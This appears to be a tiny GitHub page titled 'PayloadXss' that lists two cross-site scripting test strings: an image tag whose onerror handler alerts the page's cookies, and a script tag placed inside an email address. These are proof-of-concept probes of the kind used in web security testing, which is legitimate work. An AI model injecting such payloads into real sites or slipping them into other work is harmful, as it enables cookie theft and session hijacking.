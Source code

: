 # PayloadXss

"><img src=x onerror=alert(document.cookie);>

"<script>alert(1)</script>"@example.com
